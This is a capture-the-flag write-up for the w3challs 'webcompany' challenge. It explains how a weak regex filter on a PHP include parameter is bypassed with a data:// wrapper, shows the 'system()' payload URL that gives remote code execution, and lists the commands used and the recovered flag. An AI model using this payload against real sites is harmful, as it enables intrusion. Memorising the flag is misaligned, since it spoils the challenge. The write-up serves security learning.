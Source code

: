 # w3challs - webcompany

Description: *The WebCompany asked you to audit its site, to ensure it is secure... The flag is in a file located within the site tree.*

Site link: https://webcompany.hax.w3challs.com

Source code: https://git.w3challs.com/challenges/hax/-/tree/master/webcompany

## first inspection

Upon visiting the site we are presented with a *home* page which is located at **index.php** and we can also access the *services* and *contact* tabs from the interface. These are located at **index.php?p=services** and **index.php?p=contact** respectively and are accessed through the **GET** parameter **p**. Since the server is running **PHP** this might be hinting to an **LFI** vulnerability. Let's take a look at the available source code.

## source code
Here is the file tree:
```
.
├── config.php
├── contact.page.php
├── home.page.php
├── inc
│   ├── footer.inc.php
│   ├── header.inc.php
│   └── security.inc.php
├── index.php
├── services.page.php
└── style
    ├── accueil.jpg
    ├── auteur.png
    ├── bckg.gif
    ├── contact.jpg
    ├── footer_bckg.jpg
    ├── header_bckg.jpg
    ├── header_bckg_main.jpg
    ├── li.gif
    ├── menu_bckg.jpg
    ├── menu_bckg_over.jpg
    ├── realisation1.png
    ├── realisation2.png
    ├── services.jpg
    ├── sidebar_bckg.gif
    ├── sidebar_bckg.jpg
    └── style.css

3 directories, 24 files
```

The only files of interest here are:
* `index.php` which sanitizes the value of the **GET** parameter **p** and loads the corresponding file.
* `config.php` which contains some variables of file names and file extensions that are included in all of the app's php files.
* `inc/security.inc.php` which implements a **secure()** function with regex applied filters, that is used by **index.php** for input sanitization.

The rest are files containing simple HTML and/or PHP code or static files like images/css displayed by the site. 

Checking the source code of `index.php`, it executes a series of if-else type checks. The only part that could possibly be vulnerable is `include $_GET['p'] . $pageExt`, since it **includes** a file specified by the **$_GET['p']** which we control, and appends the extension **.page.php** to it. We need to check how the app sanitizes the input to contemplate our attack options.
The file `inc/security.inc.php` which implements the **secure()** function, checks if the value of **p**:
* **starts** with the `http://` protocol
* **starts** with the `https://` protocol
* **starts** with the `ftp://` protocol
* **starts** with the `ftps://` protocol
* **starts** with the `file://` protocol
* **starts** with the `/` character
* **contains** the `..` substring

If the input matches **any** of these regex applied filters, the app loads the default home page, otherwise it attempts to load the specified file. The sanitization is not too strict so this could be vulnerable to **LFI**.

## vulnerability
My first thought was to try **url encoding** or **doubly url encoding** the input to include files from the server into the web page, while also adding a **null byte** `%00` at the end to trick the app into ignoring the extension added at the end of the input, but this didn't work. URL encoded characters were decoded back and doubly URL encoded characters, as well as the null byte didn't seem to work at all.
After trying some more tricks I started testing **PHP wrappers** and different **protocols**. Many attempts later, I tried out the **data://** protocol, which got me **RCE**, verified using the `?p=data:text/plain,<?php phpinfo(); ?>` payload.

## exploit
Since the challenge doesn't involve any privesc, we only need to find the flag. I used the following payload, only changing the `cmd` each time: `https://webcompany.hax.w3challs.com/index.php?p=data:text/plain,<?php system('cmd'); ?>`.

Running the `id` command tells me I'm a nobody :/  
`uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)`

`ls -a` reveals a directory named `yo`.  
`. .. config.php contact.page.php home.page.php inc index.php services.page.php style yo .page.php`

`ls -a` on the `yo` directory reveals a directory named `dawg`:
`. .. dawg .page.php`

Ok I know where this is going..  

Run `find ./yo -type f` to find all the files recursively in the `yo` directory:
`./yo/dawg/i/herd/you/like/flagz .page.php`

`cat ./yo/dawg/i/herd/you/like/flagz` and we get the flag:
`W3C{d4fuck allow_url_include 1s 0n?!}`